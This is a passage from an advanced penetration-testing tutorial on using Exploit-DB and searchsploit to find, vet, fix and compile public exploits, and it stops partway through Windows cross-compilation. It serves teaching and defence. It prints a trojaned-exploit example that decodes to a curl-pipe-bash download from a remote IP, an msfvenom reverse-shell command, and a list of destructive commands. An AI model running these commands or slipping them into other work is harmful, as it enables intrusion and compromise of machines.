





**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 240 min

This is Chapter 2 of the Exploitation notebook. Chapter 1 built the vocabulary — exploit versus payload versus shellcode, reverse versus bind shells, listeners and handlers, staged versus stageless. This chapter puts that vocabulary to work against the single most common source of "how do I actually get code execution on this box" during a real test: the enormous body of *public* exploit code that already exists for known vulnerabilities. Almost every service you enumerate in the wild is running some version of some software, and a very large fraction of those versions have a published proof-of-concept or full exploit sitting in a public archive. Knowing how to find that code, read it, trust it, fix it, and fire it is a core, daily penetration-testing skill.

By the end of this chapter you will be able to take a version banner from `nmap`, turn it into a precise search, locate the matching exploit in Exploit-DB using both the website and the offline `searchsploit` tool, read the exploit source well enough to know what it does and whether it is safe, adjust the parameters that always need adjusting, compile it if it is written in C, and run it against an authorised lab target to land a shell. You will also learn the failure modes that waste the most time — fake and trojaned exploits, version and architecture mismatches, dead shellcode, hardcoded offsets — and how the blue team sees all of this from the other side.

Exploitation changes state on someone else's computer. Public exploit code in particular is written by strangers, frequently contains bugs, and occasionally contains *deliberate* sabotage aimed at the person running it. Everything in this chapter assumes an explicit, written, scoped engagement or hardware you own. Never run an exploit you have not read, and never run one against a system you are not authorised to test. Build the lab in Part 12, attack only your own VMs, and read every line before you execute it.

---

## Part 1: Why Public Exploits Matter (and Where They Sit in the Kill Chain)

Reconnaissance mapped the attack surface. Scanning and enumeration produced a list of hosts, open ports, services and — critically — *versions*: `vsftpd 2.3.4`, `Apache 2.4.49`, `ProFTPD 1.3.5`, `Microsoft IIS 6.0`, `Drupal 7.57`. Vulnerability assessment cross-referenced those versions against known-vulnerability data and told you which ones are probably exploitable. Exploitation is where you act on that. For a *known* vulnerability in a *known* version, you almost never write the exploit from scratch — someone already did, and published it.

That published code lives in a handful of public archives. The largest and most important is **Exploit-DB**, maintained by OffSec (the same organisation behind Kali Linux and the OSCP certification). It is a curated, searchable archive of tens of thousands of exploits and proof-of-concept files spanning decades — local privilege escalations, remote code execution, SQL injection PoCs, denial-of-service triggers, web-app exploits, and raw shellcode. Every entry has a stable numeric identifier (the **EDB-ID**), a copy of the actual exploit file, and metadata: author, date, affected platform, type, and usually the associated CVE.

Here is where public-exploit hunting sits relative to everything else in the engagement:



**Why this is a distinct skill and not just "download and run".** The naïve version of this workflow — google the version, grab the first script, run it — fails constantly and sometimes dangerously. Public exploits are written against a *specific* build, often a specific OS language pack or a specific offset, and they break when any of that differs. Many are proof-of-concept quality: they demonstrate the bug (a crash, a pop-up calculator) but do not give you a shell without work. Some are deliberately booby-trapped to attack whoever runs them. And running an exploit blindly can crash the target service — sometimes the whole host — which on a real engagement can mean downtime you are contractually responsible for. The value you add as a tester is the judgement between "found the code" and "landed the shell safely": reading it, trusting it, fixing it.

**Bug bounty relevance.** On bug bounty programs, public 1-day exploits matter most for *infrastructure* and *third-party software* in scope — an outdated Jenkins, a known-vulnerable Confluence, an unpatched GitLab. Many bounties are paid simply for demonstrating that a known CVE is exploitable on the target because the org never patched. `searchsploit` plus a version banner is often the entire finding.

**CTF relevance.** A huge fraction of HackTheBox and TryHackMe boxes are built around exactly one public exploit for one enumerated version. "Enumerate → find the version → `searchsploit` → adapt → shell" is the single most common easy/medium box pattern in existence.

---

## Part 2: The Exploit-DB Website From Scratch

Before the command-line tool, understand the archive it mirrors. Exploit-DB lives at `https://www.exploit-db.com`. It is free, requires no account to search or download, and is organised into a searchable database of exploit entries.

**Anatomy of an Exploit-DB entry.** Every exploit has a detail page at `https://www.exploit-db.com/exploits/<EDB-ID>`. For example `https://www.exploit-db.com/exploits/49757` is the ProFTPD 1.3.5 mod_copy PoC. The page shows:

| Field | Meaning | Why you care |
|---|---|---|
| **EDB-ID** | The stable numeric ID of this exploit (e.g. 49757) | Primary key. `searchsploit -x 49757` opens exactly this file. |
| **CVE** | Linked CVE(s), e.g. CVE-2015-3306 | Cross-reference to the vuln database, NVD, vendor advisories. |
| **Author** | Who published it | A known researcher's PoC is more trustworthy than an anonymous one. |
| **Type** | remote / local / webapps / dos / shellcode | Tells you what the exploit *does* before you read it. |
| **Platform** | linux / windows / php / multiple / hardware | Must match your target. |
| **Date** | Publication date | Old exploits target old builds; recent ones may need recent tooling. |
| **Verified** | A green tick if OffSec confirmed it works | Not a guarantee, but a strong signal. |
| **Download** | The raw exploit file | The actual code you will read and run. |
| **App / vulnerable software** | Sometimes a copy of the vulnerable binary/app | Lets you build a matching lab target. |

**Exploit types, precisely.** The `Type` field is not decoration — it determines your workflow:

- **remote** — runs across the network against a listening service; typically gives you initial access (a shell) on a remote host. Needs `RHOST`/`RPORT` and usually an `LHOST`/`LPORT` for the callback.
- **local** — runs *on* the target after you already have some access; typically privilege escalation (user → root/SYSTEM). You must get the file onto the box first.
- **webapps** — targets a web application (SQLi, auth bypass, file upload, RCE via a specific endpoint). Often a script that takes a URL.
- **dos** — denial of service. Crashes or hangs the target. Rarely what you want on an engagement; occasionally the only PoC for a bug you then weaponise yourself. **Never fire a dos exploit at a production target without explicit written sign-off** — it is designed to break things.
- **shellcode** — raw machine-code payloads (bind shell, reverse shell, execve) for a specific architecture/OS. Building blocks, not standalone exploits.

**The "Verified" flag and what it does not mean.** A green tick means OffSec reproduced the exploit at some point. It does *not* mean it will work against *your* target's specific build, patch level, language pack or architecture. Treat "verified" as "this was real code that worked somewhere", not "this will work here".

**GHDB.** Exploit-DB also hosts the **Google Hacking Database** (GHDB) — a catalogue of Google dork queries for finding exposed files, login portals, and sensitive data. It shares the site but is a different tool; it belongs to the recon phase (covered in the Recon & OSINT notebook) rather than exploitation, but it is worth knowing it lives here.

---

## Part 3: Understanding the Identifiers — CVE, EDB-ID, and Friends

Public-exploit work is a constant translation between identifier systems. Confusing them wastes time; understanding them makes searching precise.



| Identifier | Issued by | Identifies | Example | Note |
|---|---|---|---|---|
| **CVE** | MITRE | The *vulnerability* (one flaw) | CVE-2015-3306 | One CVE can have many exploits. |
| **EDB-ID** | OffSec | One *exploit* entry in Exploit-DB | 49757 | The primary key for `searchsploit`. |
| **CWE** | MITRE | The *class* of weakness | CWE-22 (path traversal) | Category, not a specific bug. |
| **CVSS** | FIRST | Severity *score* of a CVE | 9.8 (Critical) | Prioritisation, not exploitability. |
| **OSVDB** | (defunct) | Legacy vuln ID | OSVDB-73573 | Dead since 2016; still seen in old exploits. |
| **BID** | (defunct) | SecurityFocus Bugtraq ID | BID 12345 | Legacy; archive largely gone. |
| **MSB / KB** | Microsoft | Patch bulletin / KB article | MS17-010 / KB4013389 | Windows patch tracking. |

**The one-to-many trap.** A single CVE frequently maps to *several* Exploit-DB entries — an early DoS PoC, a later full RCE, a Metasploit port, a "reliable" rewrite. When you find the CVE, search for *all* exploits for it and pick the best one (usually: verified, most recent stable, written by a reputable author, and matching your exact target build). Do not stop at the first hit.

**The reverse trap.** An EDB-ID may have *no* CVE (0-days, or bugs the author never filed) and a CVE may have *no* public exploit at all (the reason later chapters teach you to write your own). Absence of an Exploit-DB entry is not proof a version is safe.

**Red team usage:** when a client's asset inventory lists software versions, you can pre-build a target list offline by mapping each version to its CVEs and each CVE to its Exploit-DB entries before you ever touch the network — turning enumeration into a ranked exploit shortlist.

---

## Part 4: searchsploit From Zero — What It Is and Why It Exists

`searchsploit` is the offline command-line interface to Exploit-DB. It is a Bash script (`/usr/bin/searchsploit`) that searches a *local copy* of the entire Exploit-DB archive, which ships in the `exploitdb` package. This matters for three reasons: it works with no internet (crucial when you are on an isolated client network or a jump box with no egress), it is fast (grep over local files, no web latency), and it lets you copy the actual exploit file straight into your working directory.

**What it is, mechanically.** The `exploitdb` package installs:

- The full archive of exploit files under `/usr/share/exploitdb/exploits/` (organised by platform/type, e.g. `linux/remote/49757.py`).
- Shellcode under `/usr/share/exploitdb/shellcodes/`.
- CSV index files (`files_exploits.csv`, `files_shellcodes.csv`) that `searchsploit` greps to map search terms and EDB-IDs to file paths.

`searchsploit` itself just parses those CSVs and the on-disk files and prints matches. There is no magic — you can `grep` the CSVs by hand — but the tool adds sane searching, colourised output, path resolution, copying, and a "nmap XML → exploits" mode.

**Install on Kali (it is usually preinstalled).**

```bash
# Check if it's already there (it is, on Kali)
which searchsploit
# /usr/bin/searchsploit

# If missing, or on Debian/Ubuntu:
sudo apt update
sudo apt install exploitdb -y

# Verify the local archive path
ls /usr/share/exploitdb/exploits/ | head
# aix  android  ashx  asp  aspx  bsd  cfm  freebsd  hardware  ...
```

**On non-Kali systems** (a stripped jump box, a fresh Ubuntu VM) you can install from OffSec's git repo directly:

```bash
sudo git clone https://gitlab.com/exploit-database/exploitdb.git /opt/exploitdb
sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit
```

**Keep it current.** The archive is a snapshot. New exploits are published daily, so update before relying on "nothing found":

```bash
searchsploit -u        # updates the local exploitdb package/repo
# On apt systems this may instead be: sudo apt update && sudo apt install exploitdb
```

**Configuration.** `searchsploit` reads an optional resource file, `~/.searchsploit_rc`, where you can override the archive path (useful if you cloned to `/opt/exploitdb`). If you cloned manually, copy the sample and point it at your path:

```bash
cp /opt/exploitdb/.searchsploit_rc ~/.searchsploit_rc
# then edit the 'path_array' entries to /opt/exploitdb/...
```

---

## Part 5: Searching Effectively — Every Flag That Matters

The whole game is a good search: specific enough to find the exploit, loose enough not to miss it because of a spelling or version difference. `searchsploit` treats each space-separated term as an AND filter against the exploit *title*, case-insensitively.

**Basic search.**

```bash
searchsploit vsftpd
```

```
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                 | linux/dos/49719.py
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The left column is the title; the right is the path *relative to* `/usr/share/exploitdb/exploits/`. So the first hit is the full file `/usr/share/exploitdb/exploits/unix/remote/49757.py`.

**The essential flags.**

| Flag | Long form | Does | Example |
|---|---|---|---|
| `-t` | `--title` | Search the title field only (avoids matching the path) | `searchsploit -t oracle` |
| `-e` | `--exact` | Exact-match the phrase (stops `1.3.5` matching `1.3.50`) | `searchsploit -e 'ProFTPd 1.3.5'` |
| `-s` | `--strict` | Do not do loose version matching; match terms literally | `searchsploit -s Apache 2.4.49` |
| `-w` | `--www` | Show the exploit-db.com URL instead of the local path | `searchsploit -w vsftpd` |
| `-p` | `--path` | Print the full local path of an EDB-ID and copy it to clipboard | `searchsploit -p 49757` |
| `-x` | `--examine` | Open the exploit in a pager to READ it | `searchsploit -x 49757` |
| `-m` | `--mirror` | Copy the exploit file into the current directory | `searchsploit -m 49757` |
| `-o` | `--overflow` | Search allowing "overflow"-style loose matching | `searchsploit -o windows smb` |
| `-c` | `--case` | Case-sensitive search | `searchsploit -c SAMBA` |
| `-j` | `--json` | Output results as JSON (for scripting) | `searchsploit -j apache | jq` |
| `--cve` | | Search by CVE number | `searchsploit --cve 2021-41773` |
| `--nmap` | | Parse an nmap XML file and search for each service | `searchsploit --nmap scan.xml` |
| `--exclude` | | Remove results containing a term | `searchsploit apache --exclude='dos'` |
| `-u` | `--update` | Update the local archive | `searchsploit -u` |

**Search strategy — from loose to precise.** The most common mistake is over-specifying the first search. Software titles in the archive are inconsistent ("Microsoft Windows", "Windows", "MS Windows"; "ProFTPd" vs "ProFTPD"). Start broad, then narrow:

```bash
# 1. Product name only — see what exists at all
searchsploit proftpd

# 2. Add the major version, but not the full string yet
searchsploit proftpd 1.3

# 3. Now narrow to the exact build if the list is long
searchsploit -t proftpd | grep 1.3.5
```

**Handling version strings.** Do *not* paste the whole nmap banner. `nmap` might report `ProFTPD 1.3.5a`; the archive title might be `ProFTPd 1.3.5 mod_copy`. Searching `1.3.5a` finds nothing; searching `proftpd 1.3.5` finds it. Strip the trailing letters, patch suffixes and vendor decorations. Search the *product and major.minor*, then filter visually.

**Excluding noise.** Big products return dozens of DoS PoCs you do not want. Filter them:

```bash
searchsploit apache 2.4 --exclude='dos'
searchsploit windows kernel --exclude='(PoC)' --exclude='dos'
```

**Search by CVE — the precise path.** When vuln assessment already handed you a CVE, skip title guessing entirely:

```bash
searchsploit --cve 2021-41773
```

```
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & RCE (CVE..) | multiple/webapps/50383.sh
Apache 2.4.49/2.4.50 - Path Traversal & RCE (Metasploit)| multiple/webapps/50446.rb
--------------------------------------------------------- ---------------------------------
```

**Getting the URL for the write-up.** `-w` swaps the local path for the exploit-db.com link, so you can read the entry page, comments and author notes in a browser:

```bash
searchsploit -w --cve 2021-41773
```

**JSON output for automation.** For scripting a pipeline (e.g. auto-map an asset inventory to exploits), `-j` gives machine-readable results:

```bash
searchsploit -j proftpd 1.3.5 | jq '.RESULTS_EXPLOIT[] | {Title, EDB-ID: .["EDB-ID"], Path}'
```

---

## Part 6: From nmap Straight to Exploits — the `--nmap` Mode

`searchsploit` can consume an nmap XML report and search the archive for every service/version it found. This is the fastest way to turn a scan into an exploit shortlist, and a canonical CTF move.

First, run nmap with version detection and save XML:

```bash
# -sV service/version detection, -oX XML output
nmap -sV -oX scan.xml 10.10.10.5
```

Then feed the XML to searchsploit:

```bash
searchsploit --nmap scan.xml
```

```
[i] Reading: 'scan.xml'

[i] /usr/bin/searchsploit -t vsftpd 2.3.4
[i] /usr/bin/searchsploit -t openssh 7.2p2
[i] /usr/bin/searchsploit -t apache httpd 2.4.49
...
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
Apache HTTP Server 2.4.49 - Path Traversal & RCE        | multiple/webapps/50383.sh
--------------------------------------------------------- ---------------------------------
```

Add `-v` for verbose (it shows each generated search) and combine with `--exclude` to cut DoS noise. Understand the limitation: `--nmap` searches on the *exact* version strings nmap prints, so if nmap's banner and the archive title differ (very common), it can miss real exploits. Treat `--nmap` output as a first pass, not the final word — always follow with manual per-service searches.



---

## Part 7: Copy, Examine, and the Local Archive Layout

Once you have an EDB-ID, three flags handle everything you do next: examine it, get its path, and copy it out.

**Examine before anything else (`-x`).** This opens the exploit in your pager (`less` by default) so you can read it without running it. This is not optional — reading the exploit is the single most important habit in this chapter.

```bash
searchsploit -x 49757
# opens /usr/share/exploitdb/exploits/unix/remote/49757.py in less
```

**Get the full path and copy to clipboard (`-p`).**

```bash
searchsploit -p 49757
```

```
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
File Type: Python script, ASCII text executable
Copied EDB-ID #49757's path to the clipboard
```

Note the **File Type** line — `searchsploit -p` runs `file` on the exploit and tells you what language/format it is. That immediately tells you your next step (interpret vs compile).

**Mirror the file into your working directory (`-m`).** Never edit the archive copy in place — copy it out, then modify your local copy:

```bash
mkdir -p ~/engagement/exploits && cd ~/engagement/exploits
searchsploit -m 49757
```

```
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
Copied to: /home/kali/engagement/exploits/49757.py
```

**The archive layout.** Understanding the directory structure lets you browse and grep directly:

```
/usr/share/exploitdb/
├── exploits/
│   ├── linux/
│   │   ├── local/        # privesc, e.g. dirtycow 40839.c
│   │   ├── remote/       # network RCE
│   │   ├── webapps/      # linux-hosted web apps
│   │   └── dos/
│   ├── windows/
│   │   ├── local/
│   │   ├── remote/       # e.g. MS08-067, EternalBlue PoCs
│   │   └── ...
│   ├── php/ , asp/ , aspx/ , jsp/  # web-app language buckets
│   ├── multiple/         # cross-platform (e.g. many webapps)
│   └── hardware/
├── shellcodes/           # raw payloads by arch
├── files_exploits.csv    # the master index searchsploit greps
└── files_shellcodes.csv
```

You can search the index by hand, which is handy when scripting or when `searchsploit` is not installed:

```bash
grep -i 'proftpd 1.3.5' /usr/share/exploitdb/files_exploits.csv
# 49757,exploits/unix/remote/49757.py,"ProFTPd 1.3.5 - 'mod_copy' ...",...
```

The CSV columns are: `id, file, description, date_published, author, type, platform, port, date_added, date_updated, verified, codes(CVE), tags, aliases, screenshot_url, application_url, source_url`. The `verified` column (0/1) and the `codes` column (CVE list) are the two most useful for filtering programmatically.

---

## Part 8: Reading an Exploit Before You Run It — Trust, Then Verify

This is the part that separates a professional from someone who eventually roots their own machine or wipes a client. **Public exploit code is untrusted code written by strangers.** Some of it is buggy. Some of it is fake. Some of it is a deliberate trap that attacks *you*. You must read every exploit before running it, and you must know what to look for.



**What each exploit is doing — read for these things.**

1. **The trigger.** Which request/input actually exploits the bug? For a webapp exploit, which URL/parameter? For a buffer overflow, where is the overflowing input built? Find the payload construction.
2. **Parameters you must set.** `RHOST`, `RPORT`, `LHOST`, `LPORT`, target URL, credentials, a shellcode blob. These are what you will edit in Part 9.
3. **Outbound connections.** Does it connect anywhere *other* than the target you specified or your listener? A hardcoded IP, a `curl`/`wget` to a pastebin, a `urllib` fetch of a "second stage" from someone's server — all red flags.
4. **Destructive operations.** `rm -rf`, `mkfs`, `dd if=/dev/zero`, `format`, registry deletions, `shutdown`. Fake "exploits" sometimes just wipe the runner's disk.
5. **Encoded/obfuscated blobs.** `eval(base64_decode(...))`, `exec(compile(...))`, long hex strings piped to `bash`. Decode them before you trust them.

**Recognising a trojaned exploit — a concrete example.** A classic fake looks helpful but contains a hidden payload aimed at you. Consider this pattern (sanitised):

```python
import base64
# ... plausible-looking 'exploit' code above ...
shellcode = base64.b64decode(
  "Y3VybCBodHRwOi8vMTg1LjEyMy40NS42Ny94IHwgYmFzaA==")
exec(shellcode)   # <-- runs on YOUR machine, not the target
```

Decoding that base64 gives `curl http://185.123.45.67/x | bash` — the "exploit" downloads and runs attacker code on *your* box. Always decode any base64/hex/`\x..` blob before running:

```bash
echo 'Y3VybCBodHRwOi8vMTg1LjEyMy40NS42Ny94IHwgYmFzaA==' | base64 -d
# curl http://185.123.45.67/x | bash
```

**Signals that raise trust:**

- Written by a known researcher; matches a CVE with a real advisory.
- The exploit-db.com page has the green "Verified" tick.
- The logic is transparent — you can trace input → trigger → shell with no hidden network calls or decode-and-exec.
- Shellcode is either generated by a tool you control (msfvenom) or is a standard, disassemblable payload you can verify.

**Signals that destroy trust:**

- Hardcoded IPs/URLs unrelated to your target or listener.
- Obfuscated blobs, especially `eval`/`exec`/`system` over decoded data.
- Comments that don't match the code; a "DoS" labelled as "RCE"; wildly mismatched dates/authors.
- Requests you to run it as root "for reliability" with no technical reason.

**Disassembling embedded shellcode.** When an exploit hardcodes a shellcode byte-string, verify what it does before firing. Extract the bytes and disassemble:

```bash
# Suppose the exploit has:  buf = b"\x31\xc0\x50\x68..."
# Save the raw bytes to a file (small python helper), then:
objdump -D -b binary -m i386 shellcode.bin
# or, more conveniently:
pip install pwntools
python3 -c "from pwn import *; print(disasm(open('shellcode.bin','rb').read(), arch='i386'))"
```

If the disassembly shows an `execve("/bin/sh")` or a socket→dup2→execve reverse shell, that matches a normal payload. If it shows it opening files, writing to disk, or connecting to an address you didn't set, stop.

**Blue team usage:** the same reading skill lets a defender who recovers an attacker's dropped exploit understand exactly what it did — which CVE, which callback IP (your `LHOST` becomes their IOC), which files it touched — turning a captured script into detection signatures and an incident timeline.

---

## Part 9: The Things That Always Break — and How to Fix Them

Most public exploits do not work on the first run against a real target. The failures are predictable. Here is the field guide.

**1. Wrong LHOST / LPORT / RHOST / RPORT.** The number-one cause of "it ran but nothing happened". Reverse-shell exploits contain the attacker's callback address, often as a placeholder. Open the file and set them to *your* values:

```python
# Before (placeholder in the archived file)
LHOST = "192.168.1.100"   # attacker
LPORT = 4444
RHOST = "192.168.1.200"   # target
```

Change `LHOST` to *your* Kali IP on the target's network (check with `ip a`), and make sure your listener uses the same `LPORT`. If the exploit is a bind shell, you connect *to* the target instead — no `LHOST` needed. This maps directly onto the reverse-vs-bind and listener concepts from Chapter 1.

**2. Python 2 vs Python 3.** Exploit-DB is full of Python 2 scripts (`print "x"`, `urllib2`, `.encode` differences, `string` module). On modern Kali `python` may be Python 3, so the script errors immediately:

```bash
python 49757.py
#   File "49757.py", line 40
#     print "[*] Connecting..."
#           ^
# SyntaxError: Missing parentheses in call to 'print'
```

Fix by running it with Python 2 if available (`python2 49757.py`), or port it: wrap `print` statements in parentheses, change `urllib2` → `urllib.request`, and handle bytes vs str for socket sends (`s.send(b"...")`). `2to3 -w 49757.py` automates the common cases:

```bash
2to3 -w 49757.py     # rewrites the file in place to Python 3
```

**3. Hardcoded offsets and target builds (memory-corruption exploits).** Buffer-overflow and ROP exploits contain offsets, return addresses and bad-char-avoided shellcode tuned to *one specific build* (OS version, service version, language pack, ASLR state). If your target differs, the exploit crashes the service instead of popping a shell. Look for a `targets` table:

```python
targets = [
    ("Windows XP SP3 English", 0x7c9d30d7),
    ("Windows 7 SP1 x64",      0x77012345),
]
```

Pick the entry matching your target, or you will need to find the correct return address yourself (a topic for the buffer-overflow chapters). **This is why version and language pack matter so much** — a Windows exploit built for "XP SP3 English" will not work on "XP SP3 Spanish".

**4. Dead or wrong-arch shellcode.** Embedded shellcode may be for the wrong architecture (x86 vs x64), may contain bad chars for this input, or may simply be old and non-functional. The clean fix is to regenerate it with `msfvenom` (taught in depth in Chapter 5) and paste the new bytes in, matching the exploit's format:

```bash
# Example: x86 linux reverse shell as a python byte-string
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 \
  -f python -b '\x00\x0a\x0d'
# -f python: emit as a python variable; -b: exclude bad characters
```

**5. Missing dependencies / headers.** C exploits often need specific headers or link flags; Python exploits need pip modules. Read the top-of-file comments — good exploits document their build/run line. If a C file `#include`s something exotic, install the matching `-dev` package.

**6. Line endings and encoding.** Files authored on Windows carry `\r\n`, which breaks shebang execution on Linux (`bad interpreter: /usr/bin/python^M`). Normalise:

```bash
dos2unix 49757.py
```

**7. The exploit "works" but you get no shell — listener mismatch.** You ran a reverse-shell exploit but caught nothing. Ninety percent of the time your listener is wrong: wrong port, firewalled, or the target can't route back to you. Start the listener *first*, confirm the port matches the exploit's `LPORT`, and confirm connectivity (Part 12 lab shows the full sequence).

| Symptom | Likely cause | Fix |
|---|---|---|
| `SyntaxError: Missing parentheses` | Python 2 script on Python 3 | `python2 file.py` or `2to3 -w file.py` |
| Ran, no callback | Wrong `LHOST`/`LPORT`, no listener, firewall | Set your IP, start `nc -lvnp`, check routing |
| Target service crashed | Wrong offset/target build | Match `targets` entry; verify exact version |
| `bad interpreter: ...^M` | Windows line endings | `dos2unix file.py` |
| `undefined reference` on compile | Missing lib/link flag | Read header comment, add `-l<lib>`, install `-dev` pkg |
| Shellcode runs but shell dies | Bad chars / wrong arch shellcode | Regenerate with `msfvenom -b ... -f ...` |
| Connects to a strange IP | Trojaned exploit | Reject; do not run |

---

## Part 10: Compiling Exploits — Linux and Windows Toolchains

Interpreted exploits (Python, Ruby, Perl, PHP, Bash) run directly. Compiled-language exploits (C, C++) must be built first, with a toolchain matching the *target's* architecture and OS — not yours.

**Reading the build instructions.** Well-written C exploits document the exact compile line at the top:

```c
/*
 * DirtyCow - CVE-2016-5195
 * Compile: gcc -pthread dirtyc0w.c -o dirtyc0w -lutil
 * Run:     ./dirtyc0w /etc/passwd "..."
 */
```

Always use the documented line first. If there isn't one, apply the defaults below.

**Compiling a Linux exploit (native).**

```bash
gcc 40839.c -o exploit -pthread
# -pthread: link the pthreads library (DirtyCow uses threads)
./exploit
```

Common extra flags you will meet:

| Flag | Purpose |
|---|---|
| `-o name` | Output binary name |
| `-pthread` | Link POSIX threads |
| `-lssl -lcrypto` | Link OpenSSL (many network exploits) |
| `-lutil` | Link the util library (pty helpers) |
| `-static` | Static binary — no shared-lib deps on the target (great for dropping onto minimal boxes) |
| `-m32` | Build a 32-bit binary on a 64-bit host |
| `-w` | Suppress warnings (old exploits are warning-noisy) |

**Architecture matching.** If the *target* is 32-bit but your Kali is 64-bit, build 32-bit and statically to avoid missing-library problems on the target:

```bash
sudo apt install gcc-multilib -y            # provides 32-bit headers/libs
gcc -m32 -static 40839.c -o exploit32 -pthread
file exploit32
# ELF 32-bit LSB executable, Intel 80386, statically linked
```

**Compiling a Windows exploit — the right way.** A Windows C exploit ideally builds on Windows with Visual Studio / the MSVC toolchain, or with MinGW. On Kali you cross-compile with `mingw-w64`:

```bash
sudo apt install mingw-w64 -y

# 64-bit Windows binary from Kali
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe

# 32-bit Windows binary
